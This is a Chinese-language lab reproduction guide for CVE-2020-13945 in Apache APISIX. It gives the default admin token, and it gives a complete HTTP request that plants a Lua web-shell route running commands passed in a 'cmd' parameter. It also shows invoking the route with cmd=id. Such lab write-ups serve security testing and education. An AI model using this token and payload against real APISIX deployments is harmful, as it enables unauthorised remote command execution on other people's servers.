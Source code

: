 # Apache APISIX 默认密钥漏洞 CVE-2020-13945

## 漏洞描述

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 环境搭建

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![image-20220221205854745](images/202202212058881.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```

![image-20220221205939127](images/202202212059179.png)

